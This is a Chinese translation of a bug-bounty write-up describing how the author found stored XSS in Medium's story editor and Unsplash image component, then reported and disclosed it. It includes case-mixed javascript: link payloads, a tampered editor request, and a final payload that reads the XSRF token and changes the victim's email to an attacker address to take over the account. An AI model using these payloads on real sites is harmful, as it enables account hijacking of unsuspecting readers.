




# 写我的中型博客来完成帐户接管

> 原文：<https://infosecwriteups.com/writing-my-medium-blog-to-complete-account-takeover-e65d455c16b?source=collection_archive---------1----------------------->

几周前的一个晚上，我正在写一篇新媒体博客，主题是——为什么公司应该拥抱 bug-bounty 平台，直到我陷入文思枯竭。

我心想“让我们花几分钟做点别的事情，然后再回来”。当我需要休息的时候我会做什么？我开始摆弄最近的应用程序，这次是 Medium 的故事编辑页面。

我不太记得是怎么做的了，但是我注意到我可以用像`mailto:`这样的特殊模式添加链接，然后我的第一个想法是——如果我可以使用`mailto:`，那么`javascript:`呢？

不，那没用。

我正要继续我的生活，但我脑海中有一个小小的声音在呼喊

所以我选择了那个小声音，这一次我尝试了`jAvAsCrIpT:confirm()`，我无法相信——成功了。🙄

链接被添加到我的故事中，当我作为阅读器打开它并点击链接时，会弹出一个确认对话框。

## **概念验证**



读者点击链接，弹出一个确认对话框

好了，我在《灵媒的面包和黄油》上找到了一个储存的 XSS——它的故事。我报告了这个问题，然后上床睡觉。

## 更多，我想要更多

第二天我醒来时有一个困扰的想法——我只花了 5 分钟就找到了一个非常简单的存储 XSS。真的如此寂寞吗？

我已经添加了一个 *Unsplash 图像*到一个故事中，并用 Burp Suite 拦截了这个请求。请求看起来是这样的:

```
*POST /p/8f2xxxxxxx/deltas?logLockId=970 HTTP/1.1
Host: medium.com
User-Agent: [Redacted]
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://medium.com/p/*8f2xxxxxxx*/edit
X-Obvious-CID: web
X-XSRF-Token: [Redacted]
X-Client-Date: [Redacted]
Content-Type: application/json
Content-Length: 536
Connection: close
Cookie: [Redacted]
{"id":"*8f2xxxxxxx*","deltas":[{"type":3,"index":1,"paragraph":{"name":"exxx","type":4,"text":"Photo by Some Author on Unsplash","markups":[{"type":3,"start":9,"end":17,"href":"*https://medium.com/r/?url=https%3A%2F%2Funsplash.com%2F%40someauthor%3Futm_source%3Dmedium%26utm_medium%3Dreferral*","title":"","rel":"photo-creator","anchorType":0},{"type":3,"start":21,"end":29,"href":"*https://medium.com/r/?url=https%3A%2F%2Funsplash.com%2F%40someauthor%3Futm_source%3Dmedium%26utm_medium%3Dreferral*","title":"","rel":"photo-source","anchorType":0}],"layout":1,"metadata":{"id":"0*xxxxxx","originalWidth":"\"alt='test'","originalHeight":5219,"alt":"","unsplashPhotoId":"xxxxx"}},"verifySameName":true}],"baseRev":28}*
```

然后，我将两个 href 值替换为我在第一个 XSS 上使用的相同有效载荷。
请求被篡改的正文看起来像:

```
*{"id":"*8f2xxxxxxx*","deltas":[{"type":3,"index":1,"paragraph":{"name":"exxx","type":4,"text":"Photo by Some Author on Unsplash","markups":[{"type":3,"start":9,"end":17,"href":"*jAvAsCrIpT:confirm()*","title":"","rel":"photo-creator","anchorType":0},{"type":3,"start":21,"end":29,"href":"*jAvAsCrIpT:confirm()*","title":"","rel":"photo-source","anchorType":0}],"layout":1,"metadata":{"id":"0*xxxxxx","originalWidth":"\"alt='test'","originalHeight":5219,"alt":"","unsplashPhotoId":"xxxxx"}},"verifySameName":true}],"baseRev":28}*
```

你猜怎么着，成功了！



另一个存储在 Unsplash 图像组件中的 XSS

## 增加影响

根据 Medium 的 bug-bounty 页面，他们只为 XSS 支付了 100 美元，但我想赢得大奖:

> 漏洞或绕过重要的安全控制:1000 美元

由于我已经在一个故事中存储了多个 XSS，我想通过**演示一个完整的帐户接管**来增加影响。

由于会话 cookie 被设置为 HTTP Only，我们不能只是窃取 cookie，我们必须更加努力地工作。
我直接进入我的用户资料，查看我是否可以在不输入密码的情况下用另一个电子邮件更改我的电子邮件，我发现我可以。太好了！所以为了测试，我手动更改了我的电子邮件，使用了“神奇链接”功能，向我的新电子邮件发送了一个临时登录链接，我进入了我的新电子邮件地址帐户。

## 自动化攻击

我们需要执行的步骤是:

*   获取用户的 XSRF 令牌(我提醒你，没有 cookies 给你！)
*   用新的电子邮件向`/me/email`端点发送 PUT 请求

我使用的最终有效载荷:

```
*JaVaScRiPt:var x=window.__PRELOADED_STATE__.session.xsrf;var h = new XMLHttpRequest();h.open(‘PUT’, ‘/me/email’, true);h.setRequestHeader(‘Content-Type’, ‘application/json’);h.setRequestHeader(‘X-XSRF-Token’, x);h.send(‘{“email”:”attacker@malicious.com”}’);*
```

## 报告时间线

2019 年 7 月 10 日—初始报告
2019 年 7 月 10 日—用 Unsplash 映像中存储的另一个 XSS 更新报告
2019 年 7 月 12 日—用完整的帐户接管演示更新报告
2019 年 7 月 13 日 Medium 安全团队的首次回应



2019 年 8 月 3 日—问题已修复，我已获准披露
2019 年 8 月 6 日—我被添加到[媒体的 humans.txt 文件](https://medium.com/humans.txt)



这是我的第一篇技术 bug-bounty 文章，希望你喜欢。如果你有，请随时关注我。

感谢 Medium 的安全团队以超级专业的方式处理了这份报告，并允许披露。